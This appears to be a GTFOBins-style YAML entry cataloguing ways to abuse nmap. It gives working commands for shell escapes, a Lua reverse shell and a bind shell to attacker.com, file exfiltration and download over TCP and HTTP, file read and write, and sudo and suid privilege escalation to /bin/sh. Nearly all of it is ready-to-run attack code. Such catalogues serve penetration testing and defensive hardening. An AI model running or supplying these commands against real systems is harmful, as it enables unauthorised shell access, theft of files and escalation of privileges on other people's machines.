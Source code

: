 ```yaml
---
functions:
  shell:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' > $TF
        nmap --script=$TF
    - description: The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.
      code: |
        nmap --interactive
        nmap> !sh
  non-interactive-reverse-shell:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        TF=$(mktemp)
        echo 'local s=require("socket");
        local t=assert(s.tcp());
        t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
        while true do
          local r,x=t:receive();local f=assert(io.popen(r,"r"));
          local b=assert(f:read("*a"));t:send(b);
        end;
        f:close();t:close();' > $TF
        nmap --script=$TF
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        export LPORT=12345
        TF=$(mktemp)
        echo 'local k=require("socket");
        local s=assert(k.bind("*",os.getenv("LPORT")));
        local c=s:accept();
        while true do
          local r,x=c:receive();local f=assert(io.popen(r,"r"));
          local b=assert(f:read("*a"));c:send(b);
        end;c:close();f:close();' > $TF
        nmap --script=$TF
  file-upload:
    - description: Send a local file via TCP. Run `socat -v tcp-listen:8080,reuseaddr,fork - on the attacker box to collect the file or use a proper HTTP server. Note that multiple connections are made to the server. Also, it is important that the port is a commonly used HTTP like 80 or 8080.
      code: |
        RHOST=attacker.com
        RPORT=8080
        LFILE=file_to_send
        nmap -p $RPORT $RHOST --script http-put --script-args http-put.url=/,http-put.file=$LFILE
    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        TF=$(mktemp)
        echo 'local f=io.open(os.getenv("LFILE"), 'rb')
        local d=f:read("*a")
        io.close(f);
        local s=require("socket");
        local t=assert(s.tcp());
        t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
        t:send(d);
        t:close();' > $TF
        nmap --script=$TF
  file-download:
    - description: Fetch a remote file via TCP. Run a proper HTTP server on the attacker box to send the file, e.g., `php -S 0.0.0.0:8080`. Note that multiple connections are made to the server and the result is placed in `$TF/IP/PORT/PATH`. Also, it is important that the port is a commonly used HTTP like 80 or 8080.
      code: |
        RHOST=attacker.com
        RPORT=8080
        TF=$(mktemp -d)
        LFILE=file_to_save
        nmap -p $RPORT $RHOST --script http-fetch --script-args http-fetch.destination=$TF,http-fetch.url=$LFILE
    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        TF=$(mktemp)
        echo 'local k=require("socket");
        local s=assert(k.bind("*",os.getenv("LPORT")));
        local c=s:accept();
        local d,x=c:receive("*a");
        c:close();
        local f=io.open(os.getenv("LFILE"), "wb");
        f:write(d);
        io.close(f);' > $TF
        nmap --script=$TF
  file-write:
    - code: |
        TF=$(mktemp)
        echo 'local f=io.open("file_to_write", "wb"); f:write("data"); io.close(f);' > $TF
        nmap --script=$TF
    - description: The payload appears inside the regular nmap output.
      code: |
        LFILE=file_to_write
        nmap -oG=$LFILE DATA
  file-read:
    - code: |
        TF=$(mktemp)
        echo 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);' > $TF
        nmap --script=$TF
    - description: The file is actually parsed as a list of hosts/networks, lines are leaked through error messages.
      code: |
        nmap -iL file_to_read
  sudo:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' > $TF
        sudo nmap --script=$TF
    - description: The interactive mode, available on versions 2.02 to 5.21, can be used to execute shell commands.
      code: |
        sudo nmap --interactive
        nmap> !sh
  limited-suid:
    - description: Input echo is disabled.
      code: |
        TF=$(mktemp)
        echo 'os.execute("/bin/sh")' > $TF
        ./nmap --script=$TF
  suid:
    - description: Works on older nmap versions.
      code: |
        ./nmap --interactive
        !sh
    - description: The payload appears inside the regular nmap output.
      code: |
        LFILE=file_to_write
        ./nmap -oG=$LFILE DATA
---
```

